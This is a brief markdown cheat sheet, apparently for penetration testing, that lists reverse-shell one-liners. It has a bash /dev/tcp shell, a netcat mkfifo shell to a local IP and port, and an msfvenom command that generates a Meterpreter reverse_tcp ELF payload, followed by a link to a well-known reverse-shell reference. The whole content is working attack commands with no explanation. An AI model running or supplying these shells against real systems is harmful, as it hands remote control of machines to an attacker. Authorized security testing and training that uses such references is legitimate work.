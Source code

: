 # Reverse Shells

## Bash
`bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1`


# Netcat

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.xx.xx.xx LPORT=4443 -f elf -o mt.bin


https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet